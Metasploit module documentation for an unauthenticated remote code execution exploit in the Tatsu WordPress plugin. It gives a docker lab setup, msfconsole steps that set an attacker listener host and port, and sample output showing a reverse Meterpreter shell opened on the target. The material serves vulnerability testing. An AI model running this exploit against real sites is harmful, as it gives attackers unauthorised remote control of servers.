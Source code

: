 ## Vulnerable Application

This module exploits unauthenticated remote code execution in Tatsu plugin for Wordpress. The vulnerable version is below 3.3.11. 
The module upload malicious zip file containing PHP payload, which gets parsed and unzipped into Wordpress upload directory. 
Then module will trigger the payload by sending request with payload directory as URI. The vulnerable plugin is available [here](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip) 


## Verification Steps


1. Install the application
1.1 Create `docker-compose.yml`
```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: ms
      WORDPRESS_DB_PASSWORD: supersecret
      WORDPRESS_DB_NAME: proof_of_concept
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: proof_of_concept
      MYSQL_USER: ms
      MYSQL_PASSWORD: supersecret
      MYSQL_ROOT_PASSWORD: supersecret
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
1.2 Download [plugin](https://tatsubuilder.com/wp-content/uploads/edd/2022/03/tatsu-3.3.11.zip)
1.3 Install the plugin in Wordpress admin portal

2. `msfconsole`
3. `use multi/http/wp_tatsu_rce`
4. `set RHOST [target IP]`
5. `set RPORT [target PORT]`
6. `set LHOST [attacker's IP]`
7. `set LPORT [attacker's port]`

## Options


## Scenarios


Vulnerable version is <= 3.3.11.

```
`msf6 exploit(multi/http/wp_tatsu_rce) > run
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 172.18.0.2
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 172.18.0.2:37718) at 2025-06-11 18:59:35 +0200
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer    : ff0d55ec29bf
OS          : Linux ff0d55ec29bf 6.12.10-76061203-generic #202412060638~1748542656~22.04~663e4dc SMP PREEMPT_DYNAMIC Thu M x86_64
Meterpreter : php/linux
meterpreter > 
```
